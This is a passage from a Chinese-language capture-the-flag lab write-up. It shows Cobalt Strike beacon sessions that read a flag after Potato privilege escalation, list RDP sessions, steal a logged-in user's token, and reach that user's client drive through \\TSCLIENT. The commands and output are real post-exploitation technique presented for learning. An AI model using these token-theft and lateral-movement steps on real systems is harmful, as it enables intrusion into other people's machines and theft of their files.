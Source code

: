 Potato 提权到 SYSTEM 权限后，在 Administrator 用户目录下找到 flag01：

```
beacon> shell type C:\Users\Administrator\flag\flag01.txt
[*] Tasked beacon to run: type C:\Users\Administrator\flag\flag01.txt
[+] host called home, sent: 74 bytes
[+] received output:
 _________  ________  ________  ___       ___  _______   ________   _________
|\___   ___\\   ____\|\   ____\|\  \     |\  \|\  ___ \ |\   ___  \|\___   ___\
\|___ \  \_\ \  \___|\ \  \___|\ \  \    \ \  \ \   __/|\ \  \\ \  \|___ \  \_|
     \ \  \ \ \_____  \ \  \    \ \  \    \ \  \ \  \_|/_\ \  \\ \  \   \ \  \
      \ \  \ \|____|\  \ \  \____\ \  \____\ \  \ \  \_|\ \ \  \\ \  \   \ \  \
       \ \__\  ____\_\  \ \_______\ \_______\ \__\ \_______\ \__\\ \__\   \ \__\
        \|__| |\_________\|_______|\|_______|\|__|\|_______|\|__| \|__|    \|__|
              \|_________|


Getting flag01 is easy, right?

flag01: flag{4f0113da-d86f-4728-9e72-d995584450ff}


Maybe you should focus on user sessions...
```

## TSCLIENT

根据提示“`Maybe you should focus on user sessions...`”，查看登录会话发现 John 用户：

```
beacon> shell qwinsta
[*] Tasked beacon to run: qwinsta
[+] host called home, sent: 38 bytes
[+] received output:
 会话名            用户名                   ID  状态    类型        设备
>services                                    0  断开
 console                                     1  已连接
 rdp-tcp#0         John                      2  运行中
 rdp-tcp                                 65536  侦听
```

在偷取 John 用户的 token 后，通过 TSCLIENT 从 RDP 服务端主机去连接 John 用户 RDP 客户端电脑的文件系统：

```
beacon> shell whoami
[*] Tasked beacon to run: whoami
[+] host called home, sent: 37 bytes
[+] received output:
win-web\john

beacon> shell net use
[*] Tasked beacon to run: net use
[+] host called home, sent: 38 bytes
[+] received output:
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
                       \\TSCLIENT\C              Microsoft Terminal Services
命令成功完成。


beacon> shell dir \\TSCLIENT\C
[*] Tasked beacon to run: dir \\TSCLIENT\C
```